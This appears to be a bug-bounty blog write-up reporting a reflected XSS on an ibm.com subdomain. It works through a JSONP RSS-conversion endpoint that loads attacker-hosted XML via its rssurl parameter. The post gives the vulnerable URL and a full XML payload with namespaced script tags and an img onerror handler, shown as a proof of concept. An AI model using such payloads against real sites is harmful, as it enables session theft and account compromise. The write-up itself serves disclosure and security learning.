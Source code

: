 ```yaml
---
layout: post
title: "Reflected XSS by jsonp on ibm.com subdomain"
date: 2021-5-1
comments: true
---
```


hi :D 
this my write up about my bug I've found on ibm.com, first I get URLs from web.archive.org on ibm.com by using waybackurls tool and I got this URL `https://www-356.ibm.com/partnerworld/wps/servlet/pwdyn/pw/rss/rsstojson.jsp?ccdb=no&rssurl=https://www-2000.ibm.com/file.xml&_=1596170198353`
this endpoint include XML file via `rssurl` parameter and covert the content from XML to jsonp
<img src='https://1.bp.blogspot.com/-7Dz0qMUTtE0/X5bYy8O2QfI/AAAAAAAAEYw/gioHZXy_lps0DyITLNrJhQFlaCXmV-GHwCLcBGAsYHQ/s1600/Screenshot_at_2020-08-09_18-52-24.png'>

but in headers, `content-type: text/html`, this allowed to execute HTML tags in this page , so I've created an XML file with XSS payload and upload it on my website https://knassar702.github.io/xss.xml
and add the link of the file in `rssurl` parameter

```xml
<html>
        <head></head>
        <body>
                <something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
                <a:script xmlns:a="http://www.w3.org/1999/xhtml">alert(2)</a:script>
                <info>
                  <name>
                    <value><![CDATA[<img src=x onerror=confirm(document.domain)>]]></value>
                  </name>
                    <description>
                      <value>Hello</value>
                    </description>
                    <url>
                      <value>http://google.com</value>
                    </url>
                </info>
        </body>
</html>
```

<img src='https://1.bp.blogspot.com/-BHQh_JQb0Uc/X5bZv80_nnI/AAAAAAAAEY8/hn-Ok2MGjcca4ixkIZpeUgQ1kqCYH5OvwCLcBGAsYHQ/s1600/Screenshot_at_2020-08-09_18-54-51.png'>

Done :D
